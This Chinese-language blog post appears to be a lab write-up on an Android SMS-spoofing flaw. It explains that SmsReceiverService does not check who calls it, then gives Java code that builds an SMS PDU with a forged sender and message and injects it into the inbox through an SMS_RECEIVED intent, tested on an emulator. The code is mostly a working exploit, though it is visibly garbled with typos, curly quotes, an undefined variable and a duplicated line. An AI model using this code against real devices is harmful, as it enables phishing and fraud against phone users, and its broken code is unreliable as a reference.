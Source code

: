 ```yaml
---
title: Android安全之短信欺诈漏洞
date: 2021-12-27 19:46:16
tags: 
- Android
- 短信
- 欺诈
---
```


目的：
* 通过JAVA编程理解Android手机安全漏洞的基本原理
* 用JAVA编写伪造短信代码，向系统收件箱发送伪造短信

原理：
* 漏洞原理介绍
* 该系统漏洞能够使攻击者无需申请任何权限发送短信到用户收件箱。 出现该漏洞的原因是Android系统的com.android.mms.transaction。
* SmsReceiverService系统服务未判断启动服务的调用者，攻击者可以通过该应用发送伪装短信到用户收件箱。本漏洞实质上是一种能力的泄漏。
* 漏洞发送的短信并不经过GSM网络,所以即使手机没有插sim卡,也照样可以收到短信,这让大部分的短信防火墙完全失效。

过程：

打开eclipse，点击file-import，选择android目录下的existing android code into workspace![image-20211229100046569](https://121.5.125.62:88/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100046569.png)

选择simpleedu28项目![image-20211229100118574](https://121.5.125.62:88/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100118574.png)

导入后的项目![image-20211229100200697](https://121.5.125.62:88/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100200697.png)

在工程目录res/layout的界面代码，这里可以通过控制代码，编辑相应的函数生成欺诈短信，点击activity_main.xml，可以看到界面布局的文件![image-20211229100257165](https://121.5.125.62:88/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100257165.png)

在mainactivity中添加运行欺诈短信的代码，点开`msgdemo2\src\com.example.msgdemol\mainactivity.java`![image-20211229100406295](https://121.5.125.62:88/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229100406295.png)

在mainactivity的init()函数添加如下代码，为button设置监听事件

```java
//为发送按钮设置监听
sendBt.setOnClickListener(new OnClickListener(){
       @Override
       public void onClick(View v){
                       /*
                 *获取输入的伪造号码和内
                 *判断输入是否合法
*/
String num=msgNumTv.getText().toString();
String con=msgConTv.getText().toString();
If(num.length()<1||con.length()<1)
{ Toast.makeText(MainActivity.this,”电话号码或者内容没有输入”,Toast.LENGTH_SHORT).show();
return;}
//判断通过伪造短信
//make Msg(MainActivity.this,num,con);
createFakeMsg(MainActivity.this,num,con);}
});
```

在MainActivity的init()函数,跳转到init函数位置添加上一步的代码

![image-20211229101856123](https://121.5.125.62:88/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229101856123.png)createFakeMsg的具体代码

```java
/**
 *伪造短信
* @param context
@param num
* @param con
 */
          Private static void createFakeMsg(Context context,String num,String con){
                byte[] pdu=null;
                byte[] scBytes=PhoneNumberUtils.networkPortionToCalledPartyBCD(num);
                int lsmcs=scBytes.length;
                byte[] dateBytes=new byte[7];
                Calendar calendar=new GregorianCalendar();
                dateBytes[0]=reverseByte((byte)(calendar.get(Caledar.YEAR)));
                dateBytes[1]=reverseByte((byte)(calendar.get(Caledar.MONTH)+1));
                dateBytes[2]=reverseByte((byte)(calendar.get(Caledar.DAY_OF_MONTH)));
                dateBytes[3]=reverseByte((byte)(calendar.get(Caledar.HOUR_OF_DAY)));
                dateBytes[4]=reverseByte((byte)(calendar.get(Caledar.MINUTE)));
                dateBytes[5]=reverseByte((byte)(calendar.get(Caledar.SECOND)));
                dateBytes[6]=reverseByte((byte)(（calendar.get(Caledar.ZONE_OFFSET)+calendar.get(Calendar.DST_OFFSET))/(60*1000*15)）);
                try{
          // Log.d(LOG,”test one”);
                 ByteArrayOutputStream bo=new ByteArrayOutputStream();
                 bo.write(lsmcs);
                 bo.write(scBytes);
                 bo.write(0x04);
                 bo.write((byte)num.length());
                 bo.write(senderBytes);
                 bo.write(0x00);
                 bo.write(0x00);//encoding:0 for default 7bit
                 bo.write(dateBytes);
                 try{
          String sReflectedClassName=”com.android.internal.telephony.GsmAlphabet”;
          Class cRefectedNFCExtras=Class.forName(sReflectedClassName);
          Method stringToGsm7BitPacketd=cReflectedNFCExtras.getMethod(“stringToGsm7BitPacketd”,new Clas[]{String.class});
          stringToGsm7BitPacked.setAccessible(true);
          byte[] conbytes=(byte[]) stringToGsm7BitPacked.invoke(null,con);
          bo.write(conbytes);
          }catch(Exception e){e.printStackTrace();}
          pdu=bo.toByteArray();}
          catch(IOException e){e.printStackTrace();}
          Intent intent=newIntent();
          Intent.setClassName（“com.android.mms.transaction.SmsReceiverService”）;
          Intent.setAction(“android.provider.Telephony.SMS_RECEIVED”);
          Intent.putExtra(“pdus”,new Object[]{pdu});
          //intent.putExtra(“format”,”3gpp”);
          Context.startService(intent);}
          Private static byte reverseByte(byte b){
          private static byte reverseByte(byte b){
          return (byte)((b&0xf0)>>4|(b&0x0f)<<4);}
```

在已经设计好的欺诈短信发送界面，有两部分内容：伪造号码与伪造内容。这里的伪造号码，这是发件人的号码，因为是发给自己，所以没有收件人号码，。至于内容可以随意填写内容，使短信更具欺诈性。

AVD中打开虚拟机Simpleedu28虚拟安卓![image-20211229102354469](https://121.5.125.62:88/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229102354469.png)

右键MSGDEMO2，选择run as-android application按钮![image-20211229102712162](https://121.5.125.62:88/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229102712162.png)

虚拟端返回运行后结果![image-20211229102740838](https://121.5.125.62:88/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229102740838.png)

点击发送，手机接收欺诈短信

![image-20211229102848974](https://121.5.125.62:88/image/Android%E5%AE%89%E5%85%A8%E4%B9%8B%E7%9F%AD%E4%BF%A1%E6%AC%BA%E8%AF%88%E6%BC%8F%E6%B4%9E/image-20211229102848974.png)

